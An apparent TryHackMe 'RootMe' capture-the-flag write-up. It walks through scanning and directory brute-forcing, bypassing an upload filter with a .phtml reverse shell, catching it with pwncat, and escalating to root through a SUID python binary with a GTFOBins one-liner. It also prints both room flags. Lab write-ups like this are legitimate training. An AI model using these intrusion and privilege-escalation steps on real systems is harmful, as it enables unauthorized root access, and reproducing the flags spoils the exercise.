 `export IP='10.10.80.6'`
# Root Me
`url = https://tryhackme.com/room/rrootme`
`date = 01/19/2023`


## Enumeration
---
1. Network Enumeration
```bash
rustscan -a $IP --ulimit 6000 --scripts None
```
* Ports `22` & `80` are open which means that there is a website hosted & SSH/HTTP are the services. Hence, 2 ports are open.

2. Directory Bruteforcing
```bash
dirsearch -u http://$IP/
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```bash
/uploads
/panel
/js
/index.php/login
```
* The `/uploads` page shows us the directory listing for this website.
* The `/panel` page allows you to upload files; mostly this page has an artbitrary file upload vuln.
* The `/js` page is just some 'typewriter' java script code. I dont think there is much use to it right now.
* `/index.php/login` page shows us a prompt that gives us the user name  - `root@rootme:~#`.
---

## Exploitation

* On uploading the file on `/panel` I see that ".php" files are not allowed. Which is why I first renmaes the file to `reshell.txt`, which succeeded but could not be executed. So I re-renamed the file to `revshell.phtml` which did the trick.

`pwncat-cs -lp 9999 # $LPORT`

* Shell received.
---

## Post Exploitation

1. Find the `user.txt` flag by literally searching for it in the root directory.
    ```bash
    find / -name "user.txt" -type f 2>/dev/null
    ```
which will give you the user flag - THM{y0u_g0t_a_sh3ll}

2. In order for us to switch user to root, we do some enumeration. We can check `cat /etc/crontab`. There are no crontabs. Another thing we can do is find SUID binaries in this machine --
Use command - `find / -perm -u=s -type f 2>/dev/null`
which returns -
```bash
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 python
```

3. For performing privesc, get the command from gtfobins -
`/usr/bin/python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’`

which should give you root. Now you can just -
```bash
cd /root
cat root.txt
```
this will give you the root flag - THM{pr1v1l3g3_3sc4l4t10n}

fin.